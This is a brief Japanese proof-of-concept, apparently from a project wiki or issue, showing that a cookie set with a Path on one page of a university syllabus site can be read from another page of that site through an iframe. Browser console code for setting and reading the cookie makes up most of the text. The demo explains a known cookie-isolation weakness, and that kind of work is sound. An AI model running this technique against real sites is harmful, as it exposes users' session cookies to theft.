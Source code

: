 # Demo: シラバスへの攻撃
* 1つのシラバスで設定したCookieの`sessionId`が別のページのconsole.logから読める。

## 社会システム科学概論
* [社会システム科学概論](http://syllabus.sic.shibaura-it.ac.jp/syllabus/2022/sys/133026.html.ja)
* コンソールを開いて`sessionId`を設定する。
```
document.cookie = 'sessionId=1234; Path=/syllabus/2022/sys'
> 'sessionId=1234; Path=/syllabus/2022/sys'
```
![image](/uploads/b9ec101bc63b8da456d2d392e7dad4e0/image.png)
## データサイエンス応用
* [データサイエンス応用](http://syllabus.sic.shibaura-it.ac.jp/syllabus/2022/sys/132990.html.ja)
* iframeで別のウィンドウを読み込ませて、そこから社会システム科学概論で設定した`sessionId`の値を読み取る。
* 同一オリジン(HTTPS/同一ホスト/443)なので、不正なcookieの読み込みができる。

```
const iframe = document.createElement('iframe')
iframe.src = 'http://syllabus.sic.shibaura-it.ac.jp/syllabus/2022/sys/133026.html.ja'
'http://syllabus.sic.shibaura-it.ac.jp/syllabus/2022/sys/133026.html.ja'
document.body.append(iframe)
console.log(iframe.contentDocument.cookie)
> sessionId=1234; ...
```
![image](/uploads/d74d93d51dea48b319603d38d4fc2fd8/image.png)